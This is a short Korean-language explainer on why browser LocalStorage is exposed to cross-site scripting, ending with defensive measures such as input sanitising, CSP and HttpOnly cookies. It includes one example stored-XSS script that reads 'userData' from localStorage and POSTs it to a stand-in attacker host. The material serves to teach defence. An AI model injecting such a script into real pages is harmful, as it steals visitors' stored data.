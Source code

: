 LocalStorage에 저장된 데이터는 XSS(Cross-Site Scripting) 공격에 취약한데, 이는 LocalStorage가 웹 페이지의 JavaScript에 의해 완전히 접근 가능하기 때문입니다. XSS 공격을 통해 악의적인 사용자 또는 스크립트가 사용자의 브라우저에 저장된 LocalStorage 데이터에 접근하고, 이를 탈취하거나 조작할 수 있습니다.

### LocalStorage와 XSS 취약성

- **직접 접근 가능**: 웹 페이지의 JavaScript는 LocalStorage에 저장된 모든 데이터에 직접 접근할 수 있습니다. 이는 XSS 공격을 통해 악의적인 스크립트가 삽입될 경우, 해당 스크립트도 LocalStorage에 접근할 수 있음을 의미합니다.

- **보안 조치 부재**: LocalStorage는 HttpOnly 플래그와 같은 추가적인 보안 조치를 제공하지 않습니다. 즉, JavaScript를 통해 쉽게 읽고 쓸 수 있습니다.

### XSS 공격 예시

1. **공격 시나리오**: 사용자가 입력한 데이터가 서버로부터 검증 없이 웹 페이지에 반영될 때, 악의적인 스크립트를 삽입할 수 있습니다. 예를 들어, 사용자의 댓글이나 피드백이 필터링 없이 저장되고 표시됩니다.

2. **악의적인 스크립트**: 공격자는 JavaScript 코드를 포함하는 댓글을 작성합니다. 예를 들어, 다음과 같은 스크립트를 포함할 수 있습니다:

   ```html
   <script>
     var userData = localStorage.getItem('userData');
     fetch('https://malicious-website.com', {
       method: 'POST',
       body: JSON.stringify({ data: userData })
     });
   </script>
   ```

3. **데이터 탈취**: 이 스크립트는 다른 사용자들이 해당 페이지를 방문할 때마다 실행됩니다. 스크립트는 LocalStorage에서 사용자 데이터를 읽어 외부 서버로 전송하게 됩니다.

### 방어 전략

- **사용자 입력 검증 및 새니타이징**: 사용자로부터 받은 모든 입력을 검증하고 적절히 이스케이프 처리하여, 스크립트가 삽입되지 않도록 합니다.

- **콘텐츠 보안 정책 (CSP)**: CSP를 구현하여 외부 스크립트의 실행을 제한합니다.

- **중요한 데이터는 LocalStorage 사용 지양**: 인증 토큰과 같은 중요한 데이터는 LocalStorage 대신 HttpOnly 쿠키에 저장하는 것이 안전합니다.

LocalStorage를 사용할 때는 이러한 취약성을 항상 염두에 두고, 가능한 한 중요한 정보는 서버 측에서 관리하거나 보다 안전한 저장 방법을 사용해야 합니다.
